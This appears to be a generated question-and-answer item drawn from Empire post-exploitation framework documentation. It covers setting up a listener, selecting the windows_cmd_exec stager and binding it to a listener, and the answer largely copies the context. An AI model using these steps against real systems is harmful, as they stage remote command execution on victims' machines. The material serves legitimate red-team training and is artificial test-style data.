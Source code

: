 Context:## Setting Up a Listener

Before generating a payload, you must configure a listener. The listener acts as the point of communication between the payload and the Empire server.

1. **List Available Listeners**:
    ```bash
    listeners
```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Command Execution via CMD for Remote Payloads with Empire BC
This payload creates a command execution script to trigger remote payloads.

1. **Select the Stager**:
    ```bash
    usestager windows_cmd_exec
```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute

 Question: Generate an example of how *bind a stager* to a listener with Empire BC. Returns *only bash commands* in the final answer. 

 Your response: 


### Windows Command Execution via CMD for Remote Payloads with Empire BC
This payload creates a command execution script to trigger remote payloads.

1. **Select the Stager**:
    ```bash
    usestager windows_cmd_exec
```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
```